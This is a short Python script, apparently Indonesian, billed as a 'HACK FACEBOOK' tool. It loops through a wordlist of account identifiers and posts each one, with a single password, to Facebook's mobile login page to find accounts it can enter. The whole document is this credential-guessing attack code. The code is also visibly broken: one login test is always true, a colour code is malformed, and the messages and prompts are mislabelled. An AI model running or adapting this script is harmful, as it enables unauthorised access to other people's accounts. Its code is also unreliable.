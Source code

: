 # ReinMbf
import requests
import os

h = '\033[92'
m = '\033[91m'
k = '\033[93m'
x = '\033[0m'



def login(id,pw):
      data = {'email':id,'pass':pw}
      r = requests.post('https://mbasic.facebook.com/login',data=data)
      if 'm_ses' in r.url or 'save-device':
            print(f'{id} > {h}llogin gagal{x}')
      elif 'check point' in r.url:
            print(f'{id} > {k}akun ceckpoint{x}')
      else:
            print(f'{id} > {m}login gagal{x}')


def lis(filenya,pw):
      f = open(filenya,'r').readlines()
      print(f'berhasil menemukan {len(f)} password')
      print(f'dalam proses membuka password')
      for i in f:
          login(i.strip(),pw)



if __name__=='__main__':
      os.system('clear')
      print(h+'HACK FACEBOOK'.center(40))
      print(m+'by ReinXceed'.center(40))
      f = input('worldlist: ' )
      pw = input('email: ' )
      lis(f,pw)
